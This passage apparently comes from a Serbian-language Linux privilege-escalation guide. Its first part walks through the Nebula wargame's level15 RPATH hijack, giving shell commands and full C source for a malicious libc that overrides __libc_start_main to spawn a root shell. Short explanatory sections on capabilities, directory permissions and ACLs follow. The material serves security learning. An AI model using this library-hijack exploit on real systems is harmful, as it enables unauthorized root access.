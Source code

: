 Kopiranjem lib datoteke u `/var/tmp/flag15/`, program će je koristiti na tom mestu kako je navedeno u `RPATH` promenljivoj.

```
level15@nebula:/home/flag15$ cp /lib/i386-linux-gnu/libc.so.6 /var/tmp/flag15/

level15@nebula:/home/flag15$ ldd ./flag15
linux-gate.so.1 =>  (0x005b0000)
libc.so.6 => /var/tmp/flag15/libc.so.6 (0x00110000)
/lib/ld-linux.so.2 (0x00737000)
```

Zatim kreiraj zlu biblioteku u `/var/tmp` sa `gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6`

```c
#include<stdlib.h>
#define SHELL "/bin/sh"

int __libc_start_main(int (*main) (int, char **, char **), int argc, char ** ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
char *file = SHELL;
char *argv[] = {SHELL,0};
setresuid(geteuid(),geteuid(), geteuid());
execve(file,argv,0);
}
```

## Mogućnosti

Linux mogućnosti pružaju **podskup dostupnih privilegija root korisnika procesu**. Na taj način se privilegije root korisnika **razbijaju na manje i različite jedinice**. Svaka od ovih jedinica može biti nezavisno dodeljena procesima. Na taj način se smanjuje kompletni set privilegija, smanjujući rizik od zloupotrebe.\
Pročitajte sledeću stranicu da biste **saznali više o mogućnostima i kako ih zloupotrebiti**:

{% content-ref url="linux-capabilities.md" %}
[linux-capabilities.md](linux-capabilities.md)
{% endcontent-ref %}

## Dozvole direktorijuma

U direktorijumu, **bit "execute"** omogućava korisniku da se "**cd**" u folder.\
Bit **"read"** omogućava korisniku da **lista** **fajlove**, a bit **"write"** omogućava korisniku da **briše** i **kreira** nove **fajlove**.

## ACL-ovi

Access Control Lists (ACL-ovi) predstavljaju sekundarni sloj diskrecionih dozvola, sposobnih da **nadjačaju tradicionalne ugo/rwx dozvole**. Ove dozvole poboljšavaju kontrolu pristupa fajlovima ili direktorijumima omogućavajući ili zabranjujući prava određenim korisnicima koji nisu vlasnici ili deo grupe. Ovaj nivo **granularnosti omogućava preciznije upravljanje pristupom**. Dodatne detalje možete pronaći [**ovde**](https://linuxconfig.org/how-to-manage-acls-on-linux).
